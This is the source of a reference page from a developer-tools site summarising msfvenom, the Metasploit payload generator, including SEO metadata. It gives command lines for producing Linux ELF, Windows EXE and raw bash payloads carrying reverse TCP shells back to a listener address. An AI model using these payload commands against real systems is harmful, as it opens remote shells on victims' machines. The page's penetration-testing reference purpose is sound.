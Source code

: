 ```yaml
---
title: "Generate Metasploit Payloads - Create Exploit Code | Online Free DevTools by Hexmos"
name: msfvenom
path: /freedevtools/tldr/common/msfvenom
canonical: "https://hexmos.com/freedevtools/tldr/common/msfvenom/"
description: "Generate Metasploit payloads with msfvenom. Create reverse shells, executable files and raw code for penetration testing. Free online tool, no registration required."
category: common
keywords:
- metasploit payload generation
- reverse shell generator
- exploit code creation
- msfvenom payload creator
- linux payload generator
- windows executable generator
- raw shellcode generator
- penetration testing payloads
- reverse tcp payload
- msfvenom command line
features:
- Generate payloads for various operating systems
- Create reverse TCP shells for penetration testing
- Output payloads in multiple formats like ELF, EXE, and raw
- List available payloads and formats
- Customize payload options such as LHOST and LPORT
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>.

- List payloads:

`msfvenom {{[-l|--list]}} payloads`

- List formats:

`msfvenom {{[-l|--list]}} formats`

- Show payload options:

`msfvenom {{[-p|--payload]}} {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} elf {{[-o|--out]}} {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} exe {{[-o|--out]}} {{path/to/binary.exe}}`

- Create a raw Bash with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} raw`
